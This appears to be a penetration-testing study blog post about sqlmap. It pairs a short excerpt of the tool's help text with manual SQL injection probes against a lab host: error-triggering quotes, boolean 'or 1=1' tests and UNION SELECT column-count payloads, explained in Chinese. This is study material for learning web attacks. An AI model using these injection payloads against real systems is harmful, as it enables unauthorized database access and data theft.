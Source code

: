 ```yaml
---
layout: post
title: "Sqlmap"
date: "2022-07-05"
author: "r3kind1e"
header-img: "img/post-bg-Penetration Testing Student.png"
catalog:    true
tags: 
    - Penetration Testing Student
    - Web Attacks
---
```


# Sqlmap

```
sqlmap --help

  Target:
    At least one of these options has to be provided to define the
    target(s)

    -u URL, --url=URL   Target URL (e.g. "http://www.site.com/vuln.php?id=1")

  Request:
    These options can be used to specify how to connect to the target URL

    --data=DATA         Data string to be sent through POST (e.g. "id=1")

  Injection:
    These options can be used to specify which parameters to test for,
    provide custom injection payloads and optional tampering scripts

    -p TESTPARAMETER    Testable parameter(s)

```

```
http://sqlmap.test
http://sqlmap.test/search.php?search=noexists' # 报错，该参数似乎易受攻击
http://sqlmap.test/search.php?search=notexists' or 1=1; -- - # 永真，输出中有所有已经发布的博客
http://sqlmap.test/search.php?search=notexists' or 1=2; -- - # 永假，没有返回数据

```
这说明search包含布尔注入。

让我们尝试联合注入：

我们得到报错，这是因为原始查询和我们注入的查询的列数不同。

```
http://sqlmap.test/search.php?search=notexists' UNION SELECT 'els1'; -- -
http://sqlmap.test/search.php?search=notexists' UNION SELECT 'els1','els2'; -- -
http://sqlmap.test/search.php?search=notexists' UNION SELECT 'els1','els2','els3'; -- -
```
